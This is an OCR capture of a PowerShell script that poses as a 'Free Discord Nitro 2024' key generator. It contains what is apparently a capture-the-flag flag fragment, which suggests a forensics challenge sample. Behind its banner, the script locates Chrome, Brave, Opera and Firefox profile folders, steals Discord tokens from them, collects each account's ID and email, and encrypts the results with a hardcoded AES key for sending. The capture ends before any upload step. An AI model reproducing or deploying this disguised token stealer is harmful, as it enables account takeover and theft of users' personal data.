 ```
    Write-Host "
    ______              ______ _                       _   _   _ _ _               _____  _____  _____   ___ 
    |  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
    | |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
    |  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
    | | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
    \_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/
                                                                                                             
                                                                                                             "
    Write-Host "Generating Discord nitro keys! Please be patient..."
    
    $local = $env:LOCALAPPDATA
    $roaming = $env:APPDATA
    $part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
    
    $paths = @{
        'Google Chrome' = "$local\Google\Chrome\User Data\Default"
        'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
        'Opera' = "$roaming\Opera Software\Opera Stable"
        'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
    }
    
    $headers = @{
        'Content-Type' = 'application/json'
        'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
    }
    
    $allTokens = @()
    foreach ($platform in $paths.Keys) {
        $currentPath = $paths[$platform]
    
        if (-not (Test-Path $currentPath -PathType Container)) {continue}
    
        $tokens = Steal -path $currentPath
        $allTokens += $tokens
    }
    
    $userInfos = @()
    foreach ($token in $allTokens) {
        $userInfo = Get-DiscordUserInfo -Token $token
        if ($userInfo) {
            $userDetails = [PSCustomObject]@{
                ID = $userInfo.id
                Email = $userInfo.email
                GlobalName = $userInfo.global_name
                Token = $token
            }
            $userInfos += $userDetails
        }
    }
    
    $AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
    $payload = $userInfos | ConvertTo-Json -Depth 10
    $encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload
    
```
